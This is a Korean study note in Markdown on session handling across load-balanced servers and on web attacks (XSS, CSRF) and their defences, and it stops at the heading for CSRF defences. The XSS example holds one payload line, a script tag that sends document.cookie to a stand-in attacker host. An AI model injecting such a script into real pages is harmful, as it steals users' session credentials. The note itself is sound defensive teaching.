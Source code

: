   - 서버 여러 대일 때 세션 처리

    - 문제

      여러 대 서버가 있고, 로드 밸런싱으로 요청이 분산될 때, 각 서버가 개별 세션 저장소를 갖고 있으면 동일 사용자가 다른 서버로 요청하면 세션을 찾을 수 없는 문제가 발생.

    - 해결 방안

      - 세션 클러스터링

        여러 서버가 세션 저장소를 공유하도록 동기화하는 방식이다. 모든 서버가 동일한 세션 데이터를 유지해야 해서 메모리, 네트워크 부하가 커질 수 있다.

      - 세션 서버(세션 중앙 저장소) 방식

        별도의 전용 세션 저장소(예: Redis) 서버를 둔다.
        모든 웹 서버가 이 세션 서버에 세션 데이터를 읽고 쓰기 때문에 세션 데이터가 중앙 집중화되고, 동기화 문제와 부하를 줄일 수 있다.
        Redis 같은 인메모리 데이터베이스를 사용하면 매우 빠른 조회가 가능하다.

<br>

### # 대표적인 악성 공격 및 대응 방법

- 대표적인 공격

  - XSS(Cross Site Scripting)

    웹사이트에 악성 JavaScript를 삽입해, 사용자 브라우저에서 실행시켜 사용자의 정보를 탈취하거나 조작하는 공격이다. XSS 공격도 다양하다.

    - 예시

      게시판이 있는 웹 사이트에서 게시글 내용을 `<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>`와 같이 입력하여
      클라이언트 혹은 서버에서 검증하지 않고 저장하게 되면 다른 사용자들의 인증 정보를 탈취할 수 있다.

    - 대응 방법

      | 방법                               | 설명                                                                                                          |
      | ---------------------------------- | ------------------------------------------------------------------------------------------------------------- |
      | **입력값 검증 및 인코딩**          | 사용자 입력을 그대로 HTML로 출력하지 말고, 반드시 특수문자(예: `<`, `>`, `&`)를 HTML 엔티티로 인코딩 (Escape) |
      | **Content Security Policy (CSP)**  | 서버에서 HTTP 헤더로 CSP 설정하여 허용된 스크립트만 실행되도록 제한                                           |
      | **HttpOnly 쿠키 설정**             | 쿠키에 HttpOnly 속성을 줘서 JavaScript가 쿠키에 접근 못 하게 함                                               |
      | **출력 시 Context-aware Encoding** | HTML, JS, URL 등 상황에 맞는 인코딩 사용                                                                      |
      | **라이브러리 사용**                | React, Angular 같은 프레임워크는 기본적으로 XSS에 강한 구조를 제공                                            |
      | **DOM 기반 XSS 주의**              | 클라이언트에서 DOM을 조작할 때도 사용자 입력을 안전하게 처리                                                  |
      | **최신 보안 패치 적용**            | 웹서버, 라이브러리, 프레임워크 보안 업데이트를 항상 최신으로 유지                                             |

  - CSRF(Cross site request forgery)

    사용자의 인증 정보를 도용해, 의도치 않은 악성 요청을 서버에 보내는 공격이다.

    - 예시

      은행 사이트에 로그인 되어 있는 사용자가 가짜 카피 은행 사이트에 접속 시 이미 브라우저에 저장되어 있는 인증 정보를 탈취하여 악의적인 요청을 보낸다.

    - 대응 방법
